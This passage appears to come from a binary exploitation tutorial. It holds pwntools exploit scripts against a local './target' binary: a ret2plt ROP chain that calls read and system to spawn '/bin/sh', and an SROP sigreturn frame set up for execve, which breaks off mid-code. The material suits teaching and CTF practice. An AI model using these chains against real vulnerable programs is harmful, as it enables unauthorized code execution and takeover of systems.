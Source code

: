 ### ret2plt Technique

```python
#!/usr/bin/env python3
from pwn import *

def ret2plt_exploit():
    """Use PLT entries to call libc functions"""
    elf = ELF('./target')
    
    # Use PLT entries (no ASLR on main binary)
    puts_plt = elf.plt['puts']
    read_plt = elf.plt['read'] 
    
    # Gadgets from main binary (no ASLR)
    pop_rdi = 0x400743
    pop_rsi_r15 = 0x400741
    pop_rdx = 0x400749
    
    # Writable memory in BSS
    bss_addr = elf.bss()
    
    # Chain: read("/bin/sh\x00", bss, 8) then system(bss)
    chain = [
        # read(0, bss, 8)
        pop_rdi, 0,           # stdin
        pop_rsi_r15, bss_addr, 0,  # buffer, dummy
        pop_rdx, 8,           # count
        read_plt,
        
        # system(bss)
        pop_rdi, bss_addr,
        elf.plt['system']
    ]
    
    payload = b'A' * 72 + b''.join(p64(addr) for addr in chain)
    
    p = process('./target')
    p.sendline(payload)
    p.sendline(b'/bin/sh\x00')  # Input for read()
    p.interactive()
```

## SROP (Sigreturn-oriented Programming)

### Sigreturn System Call

```python
#!/usr/bin/env python3
from pwn import *

def srop_exploit():
    """Use sigreturn to control all registers"""
    context.arch = 'amd64'
    
    # Find syscall gadget
    syscall_gadget = 0x400517  # syscall; ret
    
    # Create sigreturn frame
    frame = SigreturnFrame()
    frame.rax = 59          # sys_execve
    frame.rdi = 0x601000    # "/bin/sh" address
    frame.rsi = 0           # NULL
```